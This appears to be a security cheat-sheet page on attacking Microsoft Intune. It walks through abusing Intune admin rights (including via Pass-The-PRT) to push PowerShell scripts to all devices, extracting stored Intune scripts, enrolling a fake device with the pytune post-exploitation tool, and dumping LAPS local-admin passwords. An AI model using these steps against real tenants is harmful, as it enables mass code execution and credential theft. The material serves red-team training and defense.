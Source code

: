 # Azure Services - Microsoft Intune

Microsoft Intune is a cloud-based service that provides mobile device management (MDM) and mobile application management (MAM). It allows organizations to control and secure access to corporate data on mobile devices, including smartphones, tablets, and PCs. With Intune, businesses can enforce security policies, manage apps, and ensure that devices comply with organizational requirements, whether they are company-owned or personal (BYOD).


## Intunes Administration

**Requirements**:

* **Global Administrator** or **Intune Administrator** Privilege 
    ```powershell
    Get-AzureADGroup -Filter "DisplayName eq 'Intune Administrators'"
    ```

**Walkthrough**

1. Login into https://endpoint.microsoft.com/#home or use Pass-The-PRT
2. Go to **Devices** -> **All Devices** to check devices enrolled to Intune
3. Go to **Scripts** and click on **Add** for Windows 10. 
4. Add a **Powershell script**
5. Specify **Add all users** and **Add all devices** in the **Assignments** page.

:warning: It will take up to one hour before you script is executed !


## Intune Scripts

**Requirements**:

* App with permission: `DeviceManagementConfiguration.Read.All`
* `Microsoft.Graph.Intune` dependency installed: `Install-Module Microsoft.Graph.Intune`

**Extract Intune scripts**:

The following scripts are deprecated, use `MgGraph` instead of `MsGraph`, and change the appropriate function `InvokeMgGraph` too.

* [okieselbach/Get-DeviceManagementScripts.ps1](https://raw.githubusercontent.com/okieselbach/Intune/master/Get-DeviceManagementScripts.ps1) - Get all or individual Intune PowerShell scripts and save them in specified folder.
    ```ps1
    Get-DeviceManagementScripts -FolderPath C:\temp -FileName myScript.ps1
    ```

* [okieselbach/Get-DeviceHealthScripts.ps1](https://raw.githubusercontent.com/okieselbach/Intune/master/Get-DeviceHealthScripts.ps1) - Get all or individual Intune PowerShell Health scripts (aka Proactive Remediation scripts) and save them in specified folder.
    ```ps1
    Get-DeviceHealthScripts -FolderPath C:\temp\HealthScripts
    ```

* [secureworks/pytune](https://github.com/secureworks/pytune) - Pytune is a post-exploitation tool for enrolling a fake device into Intune with mulitple platform support.
    ```ps1
    python3 pytune.py entra_join -o Windows -d Windows_pytune -u testuser@*******.onmicrosoft.com -p ***********  
    python3 pytune.py enroll_intune -o Windows -d Windows_pytune -c Windows_pytune.pfx -u testuser@*******.onmicrosoft.com -p *********** 
    python3 pytune.py download_apps -d Windows_pytune -m Windows_pytune_mdm.pfx
    ```


## LAPS

Some organization have recreated LAPS for Azure devices using Intune scripts.

```ps1
#requires -modules Microsoft.Graph.Authentication
#requires -modules Microsoft.Graph.Intune
#requires -modules LAPS
#requires -modules ImportExcel

$DaysBack = 30
Connect-MgGraph
Get-IntuneManagedDevice -Filter "Platform eq 'Windows'" |
    Foreach-Object {Get-LapsAADPassword -DevicesIds $_.DisplayName} |
        Where-Object {$_.PasswordExpirationTime -lt (Get-Date).AddDays(-$DaysBack)} |
            Export-Excel -Path "c:\temp\lapsdata.xlsx" - ClearSheet -AutoSize -Show
```


## References

* [Microsoft Intune - Microsoft Intune support for Windows LAPS](https://learn.microsoft.com/en-us/mem/intune/protect/windows-laps-overview)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)
* [Get back your Intune Proactive Remediation Scripts - Oliver Kieselbach - September 7, 2022](https://oliverkieselbach.com/2022/09/07/get-back-your-intune-proactive-remediation-scripts/)
* [Get back your Intune PowerShell Scripts - Oliver Kieselbach - February 6, 2020](https://oliverkieselbach.com/2020/02/06/get-back-your-intune-powershell-scripts/)